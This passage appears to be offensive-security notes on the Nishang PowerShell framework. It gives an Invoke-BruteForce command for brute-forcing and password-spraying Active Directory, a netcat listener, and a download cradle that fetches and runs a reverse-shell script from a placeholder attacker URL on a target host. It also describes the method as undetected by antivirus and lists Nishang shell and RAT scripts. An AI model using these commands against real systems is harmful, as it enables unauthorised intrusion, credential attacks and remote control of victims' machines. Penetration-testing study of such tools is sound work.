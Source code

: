 
PS C:\> Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp/pwds.txt -Service ActiveDirectory -StopOnSuccess -Verbose


Invoke-BruteForce is also a great tool for executing a password spray attack against Active Directory

Just ensure that your password list contains a single password


# Reverse PowerShell Shell (NetCat)

The Invoke-PowerShellTcp cmdlet within the Nishang framework provides an excellent way to obtain a 
reverse PowerShell Shell from our target host back to a netcat listener

keep in mind if using this method, that the traffic is traversing the wire in cleartext between attacker
and target


Although a great and undetected (by antivirus) method to get a reverse shel from PowerShell, over-the-wire
heuristics (SIEM) may pick up some of the back and forth chatter if that type of solution has been
implemented within an organization

To use this, we should first fire up a NetCat listener on our attacker machine

We will configure it on port 4444 for this example

nc -lvnp 4444


Next we can simply invoke it using a download cradle from the target system, this time, from a windows
command prompt on the target

C:\> powershell.exe -Command iex (New-Object Net.WebClient).DownloadString('http://attacker_URL/Invoke_PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAdress <listener_IP> -port 4444


On our listener we should recieve a connect back from the target into a PowerShell prompt


There are several different shells, both bind, reverse, ICMP, UDP shells, and some more complex "rat"-type
shells we can utilize from Nishang:

Invoke-JSRatRegsvr.ps1
Invoke-JSRatRundll.ps1
Invoke-PoshRatHttp.ps1
Invoke-PoshRatHttps.ps1
Invoke-PowerShellcmp.ps1
Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcpOneLine.ps1
Invoke-PowerShellTcpOneLineBind.ps1
Invoke-PowerShellUdp.ps1
Invoke-PowerShellUdpOneLine.ps1
Invoke-PowerShellWmi.ps1
Invoke-PsGcat.ps1
Invoke-PsGcatAgent.ps1
Remove-PoshRat.ps1
